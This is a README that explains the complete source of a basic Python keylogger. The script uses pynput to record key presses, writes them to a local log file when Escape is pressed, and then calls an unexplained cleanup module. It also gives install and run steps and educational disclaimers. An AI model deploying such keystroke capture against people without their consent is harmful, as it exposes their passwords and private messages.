 ## Keylogger Project Readme
Overview
This Python script serves as a basic keylogger, capturing key presses and saving them to a log file named 'log.txt'. The code utilizes the pynput library to monitor and record keyboard input. Additionally, there is a function clean() from a module KLcleaner (presumably related to cleaning up after the keylogging process).


## Dependencies
pynput: This library is used for monitoring keyboard input.


## How it Works
The script imports necessary modules, including pynput.keyboard for keyboard monitoring, and the custom KLcleaner module for cleaning.
python

''' Copy code
from pynput.keyboard import Key, Listener
from KLcleaner import clean '''
The script initializes an empty list called keys to store the pressed keys.
python
Copy code
keys = []
Two functions, on_press and on_release, are defined to handle key events. The on_press function appends each pressed key to the keys list, and the on_release function checks if the pressed key is the escape key (Key.esc). If the escape key is pressed, the script writes the collected keys to the 'log.txt' file and terminates the keylogging process.
python
Copy code
def on_press(key):
    keys.append(key)

def on_release(key):
    if key == Key.esc:
        with open('log.txt', 'w') as file:
            file.writelines(str(keys))
        return False
The script initializes a Listener object with the defined on_press and on_release functions, and starts monitoring the keyboard.
python
Copy code
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
After the listener is terminated (when the escape key is pressed), the clean() function is called, presumably to perform cleanup operations.
python
Copy code
clean()
Important Notes
This script has the potential to be misused for unauthorized access to sensitive information. Always use such scripts responsibly and only on systems for which you have explicit permission.
Keyloggers are often associated with malicious activities, so be cautious when working on or using such scripts.
Usage
Install the required dependencies:
bash
Copy code
pip install pynput
Run the script:
bash
Copy code
python keylogger.py
Press the escape key to stop the keylogging process.
Disclaimer
This script is intended for educational purposes only. Unauthorized use of keyloggers or any form of malicious activity is illegal and unethical. The author is not responsible for any misuse of this code.






